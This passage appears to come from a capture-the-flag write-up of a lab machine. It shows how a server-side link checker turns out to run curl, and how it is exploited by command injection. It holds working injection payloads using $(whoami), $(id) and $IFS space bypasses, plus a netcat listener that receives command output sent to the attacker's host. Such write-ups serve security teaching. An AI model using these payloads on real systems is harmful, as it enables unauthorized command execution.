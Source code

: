 
The hit was instant on clicking submit. It isn’t clear to me if this is
simulated user interaction, or some kind of validation script on the host, but
it’s worth poking at.

#### Identify Client

I killed the Python webserver and started `nc` to get a better feel for the
entire request. I resubmitted a post with the body of
`http://10.10.14.6/test`, and again the request came instantly:

    
    
    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:34852.
    GET /test HTTP/1.1
    Host: 10.10.14.6
    User-Agent: curl/7.68.0
    Accept: */*
    

The request hung for a second, and then returned, just as it returned, the
webpage popped an error message:

![image-20201101100729739](https://0xdfimages.gitlab.io/img/image-20201101100729739.png)

This is looking more like some kind of link validation checker on the server,
and it is running curl to do it (not something native inside python like
`requests`).

#### Command Injection POC

Now with both `nc` listening on 80 and `tcpdump` listening for ICMP, I crafted
my next payload, `http://10.10.14.6/$(whoami)`, and it returned the username,
web:

    
    
    10.10.10.209 - - [01/Nov/2020 10:12:53] "GET /web HTTP/1.1" 404 -
    

If I change the command to `id`, I get up the first space, “uid=1001(web)”:

    
    
    10.10.10.209 - - [01/Nov/2020 10:13:33] "GET /uid=1001(web) HTTP/1.1" 404 -
    

Trying to do more complex commands failed as it became clear that adding a
space was breaking things. I tried using `$IFS` to represent space (a common
injection technique), and eventually found that that plus a combination of `'`
around the arguments could get it to work with something like:

    
    
    http://10.10.14.6/$(ping$IFS-c$IFS'1'$IFS'10.10.14.6')
    